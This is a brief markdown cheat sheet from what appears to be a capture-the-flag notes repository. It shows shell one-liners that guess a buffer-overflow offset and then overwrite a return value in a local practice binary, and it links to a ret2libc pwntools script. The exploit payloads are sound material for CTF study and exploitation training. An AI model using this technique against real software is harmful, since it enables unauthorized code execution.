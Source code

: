 Binary Exploitation
-

* `bof guessing offset`
	
	* `for i in {20..28}; do echo $i; python -c "print 'A' * $i + '\xee\xba\xf3\xca'" | ./bof ; done`
	* `(python -c "print 'A' * 24 + '\xee\xba\xf3\xca'"; cat) | ./bof`
	
* `ret2libc`
	
	* [pwntools-code](https://github.com/ByamB4/Capture-The-Flag/blob/master/Binary%20Exploitation/src/return2libc-basic-syntax.py)

Sandbox
-

* `????`
